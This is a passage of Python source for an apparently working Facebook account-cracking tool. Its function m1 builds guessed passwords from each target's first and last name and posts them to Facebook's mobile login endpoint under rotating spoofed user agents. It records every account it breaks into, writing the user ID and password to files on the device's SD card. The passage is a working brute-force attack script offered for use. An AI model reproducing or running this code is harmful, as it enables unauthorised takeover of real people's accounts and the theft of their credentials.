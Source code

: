 					#crack_submit.submit(ffb7,ids,names,passlist)
				#elif mthd in ['8','08']:
					#crack_submit.submit(ffb8,ids,names,passlist)
				#else:
					#crack_submit.submit(m5,ids,names,passlist)
				
def m1(ids,names,passlist):
        global loop,oks,cps
        sys.stdout.write(f'\r\r\033[1;37m [FOF] \033[1;36m•\033[1;37m %s \033[1;36m•\033[1;37m OK \033[1;36m•\033[1;37m [\033[1;32m%s\033[1;37m]'%(loop,len(oks)));sys.stdout.flush()
        session = requests.Session()
        try:
                first = names.split(f' ')[0]
                try:
                        last = names.split(f' ')[1]
                except:
                        last = 'Ahmed'
                ps = first.lower()
                ps2 = last.lower()
                for fikr in passlist:
               	        pas = fikr.replace(f'First',first).replace(f'Last',last).replace(f'first',ps).replace(f'last',ps2)
                        ua=random.choice(ugen)
                        head = {'Host': 'm.facebook.com', 'viewport-width': '980', 'sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="101", "Google Chrome";v="101"', 'sec-ch-ua-mobile': '?1', 'sec-ch-ua-platform':'"Windows"', 'sec-ch-prefers-color-scheme': 'light', 'dnt': '1', 'upgrade-insecure-requests': '1', 'user-agent': ua, 'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9', 'sec-fetch-site': 'none', 'sec-fetch-mode': 'navigate', 'sec-fetch-user': '?1', 'sec-fetch-dest': 'document', 'accept-encoding': 'gzip, deflate, br', 'accept-language': 'en-US,en;q=0.9'}
                        getlog = session.get(f'https://p.facebook.com/login/device-based/password/?uid={ids}&flow=login_no_pin&refsrc=deprecated&_rdr')
                        idpass ={"lsd":re.search(f'name="lsd" value="(.*?)"', str(getlog.text)).group(1),"jazoest":re.search(f'name="jazoest" value="(.*?)"', str(getlog.text)).group(1),"uid":ids,"next":"https://p.facebook.com/login/save-device/","flow":"login_no_pin","pass":pas,}
                        complete = session.post(f'https://p.facebook.com/login/device-based/validate-password/?shbl=0',data=idpass,allow_redirects=False,headers=head)
                        Fof=session.cookies.get_dict().keys()
                        if "c_user" in Fof:
                                coki=session.cookies.get_dict()
                                kuki = (f";").join([ "%s=%s" % (key, value) for key, value in session.cookies.get_dict().items() ])
                                print(f'\r\r\033[1;32m [FOF\033[1;36m•\033[1;37m\033[1;32mOK] %s \033[1;36m•\033[1;37m\033[1;32m %s'%(ids,pas))
                                #cek_apk(session,coki)
                                #print(f'\033[1;36m [Cookie]\033[1;37m : '+coki)
                                open(f'/sdcard/FOF•OK•M1.txt', 'a').write(ids+'|'+pas+'\n')
                                oks.append(ids)
                                break
                        elif 'checkpoint' in Fof:
                                if 'y' in pcp:
                                        print(f'\r\r\x1b[38;5;208m [FOF•CP] '+ids+' • '+pas+'\033[1;97m')
                                        open(f'/sdcard/FOF•CP.txt', 'a').write(ids+'|'+pas+'\n')
                                        cps.append(ids)
                                        break
                                else:
                                        break
                        else:
                                continue
        except requests.exceptions.ConnectionError:
                time.sleep(20)
        loop+=1
                        